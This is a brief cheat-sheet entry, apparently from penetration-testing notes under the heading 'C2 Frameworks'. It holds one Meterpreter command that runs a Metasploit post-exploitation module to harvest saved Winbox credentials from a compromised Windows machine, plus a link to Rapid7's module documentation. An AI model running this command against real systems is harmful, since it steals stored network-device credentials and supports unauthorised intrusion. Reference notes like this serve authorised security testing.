 # C2 Frameworks

```
meterpreter > run post/windows/gather/credentials/winbox_settings
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Winbox Settings Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/winbox_settings.md)